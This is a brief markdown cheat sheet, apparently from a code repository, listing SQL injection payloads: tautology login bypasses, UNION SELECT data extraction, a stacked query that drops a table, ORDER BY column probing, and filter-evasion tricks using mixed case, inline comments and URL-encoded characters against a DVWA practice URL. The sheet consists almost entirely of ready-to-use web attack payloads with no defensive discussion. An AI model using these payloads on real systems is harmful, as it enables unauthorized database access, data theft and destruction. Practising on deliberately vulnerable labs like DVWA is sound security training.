 # SQL injuctions
## Basic SQL injuctions syntax
``` 1' or 1='1 ```
``` 1' union select <row1>,<row2> from <tablename># ```
``` 1;drop table <tablename># ```

```` somepass' or 1=1 #     ````

# you can try with username

``` admin' # ```
``` name' order by 1#  ```

##Tampering URL and bypassing Filters

```We can try %23 instead of space add + /**/```

```192.168.56.102/dvwa/vulnerabilities/sqli/?id=1'+uNioN/**/sEleCt/**/1,2/**/%23&Submit=Submit#```
